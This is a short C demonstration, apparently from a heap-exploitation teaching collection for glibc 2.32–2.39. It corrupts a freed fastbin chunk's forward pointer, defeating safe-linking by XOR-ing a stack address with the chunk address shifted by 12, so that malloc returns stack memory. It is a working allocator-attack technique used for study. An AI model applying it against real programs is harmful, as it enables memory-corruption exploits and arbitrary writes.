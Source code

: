 

#### glibc 2.32 - glibc 2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
	setbuf(stdout, NULL);

	// Allocate 14 times so that we can free later.
	char* ptrs[14];
	size_t i;
	for (i = 0; i < 14; i++) {
		ptrs[i] = malloc(allocsize);
	}
	
	// Fill the tcache.
	for (i = 0; i < 7; i++) free(ptrs[i]);
	
	char* victim = ptrs[7];

	free(victim);
	
	for (i = 8; i < 14; i++) free(ptrs[i]);
	
	size_t stack_var[6];
	memset(stack_var, 0xcd, sizeof(stack_var));
	*(size_t**)victim = (size_t*)((long)&stack_var[0] ^ ((long)victim >> 12));
    
	for (i = 0; i < 7; i++) ptrs[i] = malloc(allocsize);
	
	for (i = 0; i < 6; i++) printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
	
	malloc(allocsize);
	
	for (i = 0; i < 6; i++) printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
	
	char *q = malloc(allocsize);
	printf("\n"
			"Finally, if we malloc one more time then we get the stack address back: %p\n", q);
	
	assert(q == (char *)&stack_var[2]);
	
	return 0;
}
```
